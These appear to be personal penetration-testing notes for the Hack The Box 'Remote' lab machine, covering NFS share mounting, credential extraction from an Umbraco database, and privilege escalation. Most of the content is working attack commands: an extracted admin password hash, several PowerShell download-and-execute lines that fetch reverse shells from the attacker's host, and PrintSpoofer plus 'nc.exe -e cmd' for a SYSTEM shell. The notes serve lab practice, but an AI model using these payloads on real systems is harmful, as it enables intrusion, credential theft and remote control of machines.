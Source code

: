 ```bash
mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock

sudo mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock
```

### Get the directory tree of the mount 
```
find . -ls > ~/home/user/web.dir
```

Don't use sublime or vscode. They miss files

### Go through config files, grep passwords
```bash
strings Umbraco.sdf | grep -i passwd
strings Umbraco.sdf | grep -i admin
strings Umbraco.sdf | grep -i admin@htb.local
```

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50

### Those insdie strings so go start with /c
`/c ping 10.10.16.9`

### Solve Clock problem
1. try diff host <ip> or http://<ip> or http://<ip>/cms
2. change something like calc.exe or other placeholders to cmd.exe

### Shell
##### Avoid using Invoke-ConPtyShell.ps1
```
/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.10.16.9 4242

/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242
  ```

https://0xdf.gitlab.io/2020/09/05/htb-remote.html
  
I’ll update the payload with the PowerShell loader that will download from my host a Nishang PowerShell reverse shell and run it. The payload will be:
```
string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.9/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242
```
To break that down, the target exe is still cmd.exe. It will run with /c, so running the command that follow. PowerShell will start, with -c to issue commands that follow. iex (shorthand for Invoke-Expression) will run whatever string comes back from the rest of the line. The rest of the line will reach out to my host, and download shell.ps1 (which is then passed to iex).

I’ll grab a copy of Invoke-PowerShellTcp.ps1 (and save it as shell.ps1), and add a line at the bottom to execute the shell:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443
```
Without this line, the harness would load the reverse shell functions into the PowerShell session, and but not use them. Now it will load the functions and then invoke the one I want to call back to me.

### Priv
  ```
cp winPEASx64.exe /home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Remote
IWR http://10.10.16.9/winPEASx64.exe -OutFile winPeas.exe
  ```

### Not working at 2021 Sep
```
PrintSpoofer64.exe -i -c cmd # is not recognized as the name of a cmdlet, function, script file
.\PrintSpoofer64.exe -i -c cmd # stuck
.\PrintSpoofer64.exe -i -c "powershell -c iex( iwr http://10.10.16.9/Invoke-PowerShellTcp.ps1 -UseBasicParsing );Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4567"
.\PrintSpoofer64.exe -i -c "powershell -ep bypass"
```

### nc.exe is the only working one
```
IWR http://10.10.16.9/nc.exe -OutFile nc.exe
.\PrintSpoofer64.exe -c "C:\users\public\nc.exe 10.10.16.9 4567 -e cmd"
```

At least 3 ways to root(some of them are patched now)
1. Crack registry key:
https://0xdf.gitlab.io/2020/09/05/htb-remote.html
2. RoguePotato is nolonger working
3. https://0xdf.gitlab.io/2020/02/01/htb-re.html#path-1-abuse-usosvc
2. PrinterSpoof
